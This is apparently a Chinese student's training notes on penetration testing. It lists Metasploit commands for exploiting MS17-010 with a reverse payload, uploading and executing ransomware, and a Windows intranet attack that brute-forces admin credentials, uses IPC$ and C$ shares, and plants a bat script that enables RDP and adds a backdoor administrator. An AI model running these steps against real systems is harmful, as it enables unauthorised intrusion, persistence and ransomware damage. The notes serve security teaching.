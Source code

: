 ```yaml
---
arturl_encode: "68747470733a:2f2f626c6f672e6373646e2e6e65742f5969736974656c7a2f:61727469636c652f64657461696c732f313338323238393532"
layout: post
title: "网络安全实训Day16"
date: 2024-04-26 20:05:58 +0800
description: "网络空间安全第16天学习笔记。漏洞扫描；内网渗透"
keywords: "网络安全实训Day16"
categories: ['未分类']
tags: ['网络安全', '笔记', '漏洞扫描', 'Web']
artid: "138228952"
image:
  path: https://api.vvhan.com/api/bing?rand=sj&artid=138228952
  alt: "网络安全实训Day16"
render_with_liquid: false
featuredImage: https://bing.ee123.net/img/rand?artid=138228952
featuredImagePreview: https://bing.ee123.net/img/rand?artid=138228952
---
```


# 网络安全实训Day16

### 网络空间安全实训-渗透测试

* ## 漏洞扫描

  + 定义

    - 扫描和探测目标范围内的主机存在哪些安全漏洞，或扫描目标范围内的那些主机存在某个指定的漏洞
  + 漏扫工具

    - AWVS
    - APPScan
    - MSF
  + ### 使用MSF扫描漏洞并利用

    - 1.搜索需要的攻击模块

      * search ms17-010
    - 2.使用攻击模块

      * use 模块名称
    - 3.设置扫描范围

      * set rhosts 192.168.12.0/24
    - 4.设置扫描线程

      * set thread 50
    - 5.开始扫描

      * run
    - 6.更换攻击模块为漏洞利用
    - 7.查看可用攻击载荷

      * show payloads
    - 8.设置攻击载荷

      * set payload 攻击载荷名称
    - 9.设置被攻击主机IP地址

      * set rhost IP地址
    - 10.设置反向连接的控制机IP地址

      * set lhost IP地址
    - 11.开始攻击

      * run
    - 12.上传病毒

      * upload 本地文件路径 远程主机路径
    - 13.执行勒索病毒

      * execute -f 勒索病毒路径
* ## Windows内网渗透

  + #### 1.扫描对方操作系统和开放的端口

    - 确定对方是Windows系统开启了445接口
  + #### 2.针对该端口服务暴力破解Windows管理员账号密码
  + #### 3.与对方建立空连接

    - net use \\对方ip地址\ipc$
    - 需要输入对方的管理员账号密码
  + #### 4.制作开启RDP和创建管理员账户的脚本bat

    - REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG\_DWORD /d 0 /f
    - net user 用户名 密码 /add
    - net local group administrator 用户名 /add
  + #### 5.访问对方C盘默认共享，将bat复制到对方C盘

    - 在文件资源管理器地址栏中输入 \\对方IP地址\c$
  + #### 6.查看对方的系统时间

    - net time \\对方IP地址
  + #### 7.给对方创建任务计划，定时执行BAT程序，开启RDP

    - at \\对方ip地址 时间 执行的文件路径
  + #### 8.使用先前创建的管理员账号登陆RDP

![](https://i-blog.csdnimg.cn/blog_migrate/3a1899394da5783be7979b3c5afc44a9.png)